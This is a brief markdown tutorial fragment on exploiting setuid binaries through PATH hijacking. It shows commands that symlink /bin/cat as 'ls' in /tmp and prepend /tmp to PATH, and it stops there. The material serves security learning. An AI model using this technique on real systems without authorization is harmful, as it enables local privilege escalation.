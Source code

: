 # Setuid

In this section we will look at ways to exploit a setuid

## Enviornment Variable Path

In writeable directory /tmp or /tmp/var make a symbolic link to binary

```$ cd /tmp```
```/tmp:~>ln -s /bin/cat ls```
```export PATH=/tmp/:$PATH```
